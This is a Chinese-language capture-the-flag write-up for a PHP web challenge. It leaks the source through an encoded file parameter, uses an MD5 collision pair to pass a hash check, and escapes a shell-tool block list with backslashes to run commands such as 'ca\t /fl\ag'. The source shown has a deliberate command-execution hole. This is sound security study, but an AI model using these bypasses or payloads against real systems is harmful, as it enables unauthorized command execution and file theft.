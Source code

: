 * # 0x01 easy\_web

打开网页发现增加了两个get类型的变量，其中image变量名称怀疑为base64加密后的数据

cmd变量为空，初步猜测为输入点![](/assets/axb1.png)经过两次base64解码后发现为十六进制字符串，翻译后得

![](/assets/abx2.png)

更改img变量内容发现左上角图片消失，判断可以采用此方法泄露源代码，此时将index.php按顺序加密后作为image变量输入得到base64加密后的源代码，解密后获得源代码如下

    <?php
    error_reporting(E_ALL || ~ E_NOTICE);
    header('content-type:text/html;charset=utf-8');
    $cmd = $_GET['cmd'];
    if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
        header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
    $file = hex2bin(base64_decode(base64_decode($_GET['img'])));

    $file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
    if (preg_match("/flag/i", $file)) {
        echo '<img src ="./ctf3.jpeg">';
        die("xixi～ no flag");
    } else {
        $txt = base64_encode(file_get_contents($file));
        echo "<img src='data:image/gif;base64," . $txt . "'></img>";
        echo "<br>";
    }
    echo $cmd;
    echo "<br>";
    if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
        echo("forbid ~");
        echo "<br>";
    } else {
        if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
            echo `$cmd`;
        } else {
            echo ("md5 is funny ~");
        }
    }

    ?>
    <html>
    <style>
      body{
       background:url(./bj.png)  no-repeat center center;
       background-size:cover;
       background-attachment:fixed;
       background-color:#CCCCCC;
    }
    </style>
    <body>
    </body>
    </html>

由源代码可知img变量过滤flag，即不能通过img变量获取flag，并且可以通过利用cmd字符串的代码执行漏洞获取flag。

由代码审计可知需要以post方式传入两个变量a和b并且使a与b的md5值相等同时a与b的字符串值不等，这与之前做过的用数组绕过md5的题不同，该题中采用数组绕过md5的过程中会使第一个条件即强行转化字符串后得到的结果也相等，则直接跳转到下一个条件处。因而只能采用md5强碰撞完成，下面给出解该题所用的md5碰撞字符串对：

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

a与b在url解码后进行md5加密得到相同的结果，如下图所示：![](/assets/axb3.png)而后通过反斜杠`\`规避正则表达式过滤，最终获取根目录下的flag

Payload：

```
&cmd=dir%20/    //查看根目录下的文件，发现flag
&cmd=ca\t%20/fl\ag    //获取flag
```



